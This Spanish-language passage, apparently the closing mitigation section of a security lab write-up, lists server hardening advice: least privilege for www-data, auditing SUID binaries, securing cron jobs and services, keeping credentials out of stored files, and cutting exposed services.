- **Principio de mínimo privilegio:** El usuario utilizado por Nginx/PHP-FPM (`www-data`) debe disponer únicamente de los permisos estrictamente necesarios, evitando que pueda modificar archivos sensibles o ejecutar herramientas privilegiadas.
- **Revisar binarios SUID:** Mantener el número de binarios SUID al mínimo imprescindible y auditar periódicamente aquellos que ejecuten operaciones privilegiadas. Los binarios personalizados deberían evitar llamadas inseguras a comandos externos y validar correctamente sus argumentos.
- **Revisar tareas programadas y servicios:** Los `cron` y servicios ejecutados con privilegios elevados deben utilizar rutas absolutas, permisos restrictivos y scripts que no puedan ser modificados por usuarios sin privilegios.
- **Proteger información almacenada:** Archivos como imágenes, backups o archivos comprimidos no deberían contener credenciales reutilizables. Las credenciales deben almacenarse de forma segura y, cuando sea posible, utilizar hashes resistentes al cracking.
- **Reducir la superficie de ataque:** Servicios que no sean necesarios, como interfaces administrativas o servicios internos expuestos innecesariamente, deberían deshabilitarse o restringirse mediante firewall y controles de acceso.
